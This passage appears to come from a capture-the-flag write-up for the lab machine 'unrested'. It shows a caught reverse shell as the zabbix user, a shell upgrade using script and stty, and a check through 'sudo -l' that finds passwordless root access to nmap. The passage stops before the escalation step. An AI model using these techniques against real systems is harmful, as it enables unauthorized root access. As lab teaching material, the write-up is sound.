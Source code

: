 ```
id
uid=114(zabbix) gid=121(zabbix) groups=121(zabbix)
zabbix@unrested:/$ whoami
whoami
zabbix

```

We can also upgrade the shell
```
zabbix@unrested:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
zabbix@unrested:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
zabbix@unrested:/$ 
```

# Shell as root
Firstly I would like check `sudo -l`
```
zabbix@unrested:~$ sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
```

We can find the exploit trick from `GTOBins`
![](images/Pasted%20image%2020250724180121.png)
Firstly I would check the version of nmap
```
zabbix@unrested:~$ nmap --version
Nmap version 7.80 ( https://nmap.org )
Platform: x86_64-pc-linux-gnu
Compiled with: liblua-5.3.6 openssl-3.0.2 nmap-libssh2-1.8.2 libz-1.2.11 libpcre-8.39 libpcap-1.10.1 nmap-libdnet-1.12 ipv6
```